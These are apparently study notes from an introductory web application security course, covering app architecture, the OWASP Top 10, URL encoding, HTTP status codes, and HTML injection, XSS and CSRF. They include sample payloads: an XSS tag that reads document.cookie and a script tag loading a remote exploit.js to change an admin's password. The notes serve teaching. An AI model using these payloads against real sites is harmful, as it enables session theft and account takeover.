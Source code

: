 # Intro to Web Applications

## Web App Layout

|Category |	Description|
|:--------|:------------|
|Web Application Infrastructure 	|Describes the structure of required components, such as the database, needed for the web application to function as intended. Since the web application can be set up to run on a separate server, it is essential to know which database server it needs to access.|
|Web Application Components 	|The components that make up a web application represent all the components that the web application interacts with. These are divided into the following three areas: UI/UX, Client, and Server components.|
|Web Application Architecture 	|Architecture comprises all the relationships between the various web application components.|

Infra setups models

- Client-Server
- One Server
- Many Servers - One Database
- Many Servers - Many Databases

### OWASP Top 10

|No. 	|Vulnerability|
|:--------|:------------|
|1. |	Broken Access Control|
|2. |	Cryptographic Failures|
|3. 	|Injection|
|4. 	|Insecure Design|
|5. 	|Security Misconfiguration|
|6. 	|Vulnerable and Outdated Components|
|7. 	|Identification and Authentication Failures|
|8. 	|Software and Data Integrity Failures|
|9. 	|Security Logging and Monitoring Failures|
|10. |	Server-Side Request Forgery (SSRF)|


### URL Encoding
|Character |	Encoding|
|:--------|:------------|
|space 	|%20|
|! |	%21|
|" 	|%22|
|# 	|%23|
|$ 	|%24|
|% 	|%25|
|& 	|%26|
|' 	|%27|
|( 	|%28|
|) 	|%29|

## Sensitive Data Exposure

This is about the exposure of sensitive details like comments in the html code on a site. You can view the source code of a webpage to inspect for these or use a proxy. 

## HTML Injection
The following example is a very basic web page with a single button "Click to enter your name." When we click on the button, it prompts us to input our name and then displays our name as "Your name is ...":

If no input sanitization is in place, this is potentially an easy target for HTML Injection and Cross-Site Scripting (XSS) attacks. We take a look at the page source code and see no input sanitization in place whatsoever, as the page takes user input and directly displays it.

To test for HTML Injection, we can simply input a small snippet of HTML code as our name, and see if it is displayed as part of the page. We will test the following code, which changes the background image of the web page:

```
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

## XSS

XSS is very similar to HTML Injection in practice. However, XSS involves the injection of JavaScript code to perform more advanced attacks on the client-side, instead of merely injecting HTML code. There are three main types of XSS:

|Type 	|Description|
|:--------|:------------|
|Reflected XSS 	|Occurs when user input is displayed on the page after processing (e.g., search result or error message).|
|Stored XSS 	|Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).|
|DOM XSS| 	Occurs when user input is directly shown in the browser and is written to an HTML DOM object (e.g., vulnerable username or page title).|

We can try to inject the following DOM XSS JavaScript code as a payload, which should show us the cookie value for the current user:
```
#"><img src=/ onerror=alert(document.cookie)>
```

## CSRF

CSRF can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using JavaScript code that would return the session cookie, we would load a remote .js (JavaScript) file, as follows:

```
"><script src=//www.example.com/exploit.js></script>
```

The exploit.js file would contain the malicious JavaScript code that changes the user's password. Developing the exploit.js in this case requires knowledge of this web application's password changing procedure and APIs. The attacker would need to create JavaScript code that would replicate the desired functionality and automatically carry it out (i.e., JavaScript code that changes our password for this specific web application).

## Back End Servers

A back-end server is the hardware and operating system on the back end that hosts all of the applications necessary to run the web application. It is the real system running all of the processes and carrying out all of the tasks that make up the entire web application. The back end server would fit in the Data access layer.

## Web Servers

|Code |	Description|
|:--------|:------------|
|Successful responses 	|
|200 OK |	The request has succeeded|
|Redirection messages 	|
|301 Moved Permanently 	|The URL of the requested resource has been changed permanently|
|302 Found 	|The URL of the requested resource has been changed temporarily|
|Client error responses 	|
|400 Bad Request 	|The server could not understand the request due to invalid syntax|
|401 Unauthorized 	|Unauthenticated attempt to access page|
|403 Forbidden| 	The client does not have access rights to the content|
|404 Not Found |	The server can not find the requested resource|
|405 Method Not Allowed 	|The request method is known by the server but has been disabled and cannot be used|
|408 Request Timeout 	|This response is sent on an idle connection by some servers, even without any previous |request by the client|
|Server error responses 	|
|500 Internal Server Error 	|The server has encountered a situation it doesn't know how to handle|
|502 Bad Gateway |	The server, while working as a gateway to get a response needed to handle the request, received an invalid response|
|504 Gateway Timeout| 	The server is acting as a gateway and cannot get a response in time|

Common technologies: apache, nginx, IIS


